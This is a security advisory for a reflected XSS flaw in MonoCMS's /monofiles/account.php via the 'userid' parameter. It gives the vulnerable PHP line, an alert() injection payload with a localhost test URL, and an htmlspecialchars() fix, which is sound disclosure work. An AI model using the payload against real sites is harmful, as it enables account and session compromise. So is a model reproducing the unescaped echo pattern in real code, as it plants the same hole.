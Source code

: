 # CVE-2024-10927 - [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/account.php)


Affected Project: **MonoCMS**

Exploit Author: Dimitris Chatzidimitris

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/account.php

Injection parameter: `userid`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `userid` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print $_GET['userid'] ?>" hidden>
```

<br />

## Injection Payload Tested:

We set `userid` to:
```
"><script>alert('XSS')</script>
```

<br />

## URL-encoded, this becomes:
```
%22%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Resulting HTML After Injection:
```
<input name="hiddenid" type="text" value=""><script>alert('XSS')</script>" hidden>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the `<script>` tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `/monofiles/account.php` looks like:

<br />

![account.php](https://i.postimg.cc/dV25sxCv/1.png)

<br />

Then we can add our payload `"><script>alert('XSS by secuserx')</script>` :
```
http://localhost:8080/monofiles/account.php?userid="><script>alert('XSS by secuserx')</script>
```

<br />

![payload](https://i.postimg.cc/CKwmzsC8/2.png)

<br />

After submitting the url with the vulnerable parameter `userid` and the XSS payload `"><script>alert('XSS by secuserx')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/pdkk85k6/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print htmlspecialchars($_GET['userid'], ENT_QUOTES, 'UTF-8') ?>" hidden>
```

<br />

> One Click Can Change Everything: Be Secure.
